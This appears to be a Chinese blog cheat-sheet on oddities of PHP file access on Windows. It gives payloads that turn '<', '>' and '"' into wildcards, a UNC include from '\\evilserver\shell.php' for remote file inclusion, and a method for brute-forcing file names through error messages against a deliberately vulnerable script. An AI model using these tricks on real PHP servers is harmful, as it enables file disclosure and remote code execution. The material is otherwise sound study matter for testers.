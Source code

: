 # windows下的php文件访问及上传cheat-sheet

原文: Oddities of PHP file access in Windows®.Cheat-sheet. 

## 测试环境

 PHP 4.9, PHP 5.2, PHP 5.3, PHP 6.0.Operating systems that were tested: Windows XP SP3 x32, Windows XP SP2 x64, Windows 7,Windows Server 2003. 



当然基本上所有的php版本和windows系统都适用





## cheat-sheet

### windows对大小写不敏感

1.php<=>1.pHp

### '<'被替换成'*'

`include('shell<')`相当于`include('shell*')`,但是有时候<会不起作用,为了保证被替换成*,应该用`<<`

### '>'被替换成'?'

`include('file.p>p')`=>`include('file.p?p')`



 During the trace of call stack it was found out that thecharacter > gets replaced with ?, character < transforms to *, and " (double quote) is replaced by a .(dot). 

![table1.jpg](http://ww1.sinaimg.cn/large/006pWR9aly1g8i9c2dzi0j30p60n5tb4.jpg)



### `"` 会被替换成`.`

`include('evil"php')`=>`include('evil.php')`



### 读取'zzz'相当于读取'.zzz'

`fopen('htaccess')`=>`fopen('.htaccess')`

但是在我的win10电脑上却没有测试成功

### 文件名结尾为.那么前面任何`.,\,/`都会被忽略

```php
fopen("config.ini\\.//\/\/\/.");
fopen("config.ini\./.\.");
fopen("config.ini\\\.");
fopen("config.ini...............");
必须以点结尾
```

emmmm前面三个在win10下无效

### \\\\绕过allow_url_fopen=Off,来rfi

` include ('\\evilserver\shell.php'); `

这里貌似无法设置端口号

/////不知道怎么利用////////

用wireshark抓包后发现，会去访问139和445端口

或许每个windows系统的vps就能利用了

### 'c:flag'=='c:\flag'

` file_get_contents('C:boot.ini'); is equal to file_get_contents ('C:/boot.ini'); `



### dos短文件名

在win10下每测试成功



## 利用<<生成的通配符来爆破文件名



假设存在这这样一个文件test.php

```php
<?phpfile_get_contents("/images/".$_GET['a'].".jpg");
//or another function from Table 1, i.e. include().
?>
```

当请求为:test.php?a=../a<

当返回

` Warning: include(/images/../a<) [function.include]: failed to open stream: Invalid argument in `

时代表不存在a开头的文件或文件夹

当返回

` Warning: include(/images/../a<) [function.include]:  failed to open stream: Permission denied
 `

说明存在a开头的文件或文件夹


